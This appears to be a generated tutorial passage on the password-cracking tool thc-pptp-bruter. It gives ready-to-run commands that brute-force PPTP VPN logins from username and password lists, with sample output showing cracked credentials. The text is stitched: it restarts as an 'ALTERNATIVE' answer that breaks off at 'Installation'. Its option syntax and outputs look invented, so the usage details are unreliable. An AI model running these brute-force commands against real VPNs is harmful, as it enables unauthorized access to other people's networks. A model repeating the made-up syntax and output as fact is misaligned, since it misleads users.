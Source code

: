 ```
thc-pptp-bruter -U /path/to/usernames.txt -P /path/to/passwords.txt 192.168.1.100
```

**Expected Output:**

```
THC-PPTP-Bruter 0.1.3 (c) 2010 by THC
Trying username 'admin' and password 'password123' on 192.168.1.100...
Success! Username 'admin' and password 'password123' work.
```

This output indicates that the tool found a valid login using the username "admin" and the password "password123".

#### 2. Brute-Force PPTP VPN Login with Verbose Output

To get more detailed output, you can use the `-v` option:

```
thc-pptp-bruter -v -U /path/to/usernames.txt -P /path/to/passwords.txt 192.168.1.100
```

**Expected Output:**

```
THC-PPTP-Bruter 0.1.3 (c) 2010 by THC
Trying username 'admin' and password 'password123' on 192.168.1.100...
[+] Success! Username 'admin' and password 'password123' work.
Trying username 'user1' and password 'password456' on 192.168.1.100...
[-] Failed to login with username 'user1' and password 'password456'.
Trying username 'user2' and password 'password789' on 192.168.1.100...
[+] Success! Username 'user2' and password 'password789' work.
```

This output provides more detailed information, including both successful and failed login attempts.

### Important Considerations

- **Legal Use**: Always ensure you have permission to test the PPTP VPN you are targeting. Unauthorized access is illegal and unethical.
- **Performance Tuning**: Adjust the number of concurrent threads with the `-t` option to optimize performance based on your network conditions.

### Conclusion

THC-PPTP-BRUTER is a useful tool for testing the security of PPTP VPN connections by attempting to brute-force the login credentials. By understanding its syntax and options, you can effectively assess the strength of your PPTP VPN security. Remember to use this tool responsibly and within the bounds of the law.


                            ALTERNATIVE
`thc-pptp-bruter` is a tool used for brute-forcing passwords for PPTP (Point-to-Point Tunneling Protocol) VPNs. Here's how to use it, along with examples and expected output.

### Installation
